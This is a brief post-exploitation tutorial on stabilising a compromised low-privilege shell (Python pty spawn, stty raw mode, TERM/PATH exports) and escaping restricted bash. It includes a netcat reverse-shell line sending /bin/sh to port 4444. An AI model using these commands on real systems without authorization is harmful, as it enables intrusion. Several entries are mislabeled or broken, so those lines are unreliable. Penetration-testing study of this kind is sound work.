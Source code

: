### **Introduction**

When you find yourself with a low-privilege shell, upgrading it to a fully interactive shell is crucial. Here’s a guide to making your shell fully interactive, including initial steps and additional tips for a smooth experience.

### **Step 1: Upgrade the Shell**

1.  Check the availability of Python versions:.   
    `which python python2 python3`
	
2.  Upgrade the Shell Using Python 2:  
    `python2 -c 'import pty; pty.spawn("/bin/bash")'`
	
3.  Upgrade the Shell Using Python 3:  
    `python3 -c 'import pty; pty.spawn("/bin/bash")'`
    

### **Step 2: Set PATH and TERM Variables**

Next, set the `PATH` and `TERM` environment variables to ensure proper functionality of shell commands and terminal capabilities:

1.  Set the PATH:  
    `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp`
2.  Set the TERM:  
    `export TERM=xterm-256color`

### **Step 3: Handle Background Processes**

If you need to suspend the current shell process and bring it to the foreground later, use the following key combinations and commands:

1.  Press `Ctrl + Z` to suspend the current process and return to the parent shell.
2.  Enter raw mode and bring the process back to the foreground:  
    `stty raw -echo; fg`
3.  Reset the terminal settings to a sane state:  
    `reset`

### **Step 4: Set Shell and Terminal Size**

Adjust the terminal window size for better readability and to avoid display issues:

1.  Set the terminal size:  
    `stty columns 200 rows 200`

### **Bypassing Restricted Bash Environments**

Use the following commands to bypass restricted bash environments:

1.  Using Perl:  
    `perl -e 'exec "/bin/sh";'`
2.  Using a shell:  
    `/bin/sh -i`
3.  Using the exec function:  
    `exec "/bin/sh";`
4.  Using echo with os.system:  
    `echo os.system('/bin/bash')`
5.  Using netcat with SSH:  
    `/bin/sh -i`
6.  Using netcat with SSH:  
    `ssh [USER]@[IP-ADRESS] nc $[LOCALIP] 4444 -e /bin/sh`
7.  Exporting TERM:  
    `export TERM=linux`